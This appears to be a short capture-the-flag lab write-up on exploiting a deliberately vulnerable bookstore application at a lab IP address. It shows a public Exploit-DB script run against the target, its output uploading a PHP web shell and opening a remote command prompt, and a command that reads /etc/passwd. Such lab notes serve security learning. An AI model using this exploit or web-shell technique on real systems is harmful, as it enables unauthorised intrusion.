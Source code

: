 The following is a vulnerable application, all information you need to exploit it can be found online.   

Note: When you find the exploit script, put all of your input in quotes, for example "id"

---
### Details


ip = 10.10.36.71


Ran bookstore exploit from https://www.exploit-db.com/exploits/47887
```shell
python3 47887.py http://10.10.36.71                

> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.36.71/bootstrap/img/C3eWq7Fc4J.php
> Example command usage: http://10.10.36.71/bootstrap/img/C3eWq7Fc4J.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y  
RCE $ ls

```
this give a shell that allow for the runnning of commands

ran   wc -c /etc/passwd to get the number of characters in passwd 

```shell
wc -c /etc/passwd
1611 /etc/passwd

```